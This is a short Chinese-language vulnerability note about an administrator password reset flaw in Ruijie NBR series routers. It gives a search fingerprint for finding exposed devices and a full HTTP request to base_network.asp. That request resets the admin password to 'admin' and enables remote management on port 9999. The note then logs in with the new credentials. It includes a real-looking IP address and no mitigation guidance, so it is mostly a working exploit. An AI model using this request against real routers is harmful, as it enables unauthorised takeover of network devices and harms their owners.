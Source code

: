 # 锐捷NBR系列多款路由器存在管理员密码重置漏洞

**一、漏洞简介**  
<font style="color:rgb(34, 34, 34);">锐捷网络是一家拥有包括交换机、路由器、软件、安全防火墙、无线产品、存储等全系列的网络设备产品线及解决方案的专业化网络厂商。锐捷NBR 路由器系统存在存在管理员密码重置漏洞，攻击者通过漏洞重置密码登录后台</font>  
**二、影响版本**

Ruijie-NBR路由器

**三、资产测绘**

```plain
body="上层网络出现异常，请检查外网线路或联系ISP运营商协助排查"
```

![1717734645117-802010e5-a75c-45f1-8f4c-551281d27278.png](./img/kB-drvIkcHwBbcTn/1717734645117-802010e5-a75c-45f1-8f4c-551281d27278-249342.png)

  
**四、漏洞复现**

```plain
GET /base_network.asp?isbase64=1&reboot=1&shortset=1&time_type=auto&exec_service=ntpc-restart&http_lanport=80&remote_management=1&http_wanport=9999&http_username=admin&http_gname_en=0&http_passwd=admin&_= HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Referer: 111.59.193.189:9999/index.htm?_1708839153
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wys_userid=; userid=admin; gw_userid=admin,gw_passwd=
Connection: close
```

![1717734727800-954b048d-0b4f-45f0-af30-40f0e26df8af.png](./img/kB-drvIkcHwBbcTn/1717734727800-954b048d-0b4f-45f0-af30-40f0e26df8af-577558.png)

```plain
使用admin/admin登录系统
```

![1717735035159-6a15be6b-d351-4ebd-bce1-f071a0f688c8.png](./img/kB-drvIkcHwBbcTn/1717735035159-6a15be6b-d351-4ebd-bce1-f071a0f688c8-178013.png)



> 更新: 2024-06-24 11:42:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/em4uexuiwqtgq0ey>
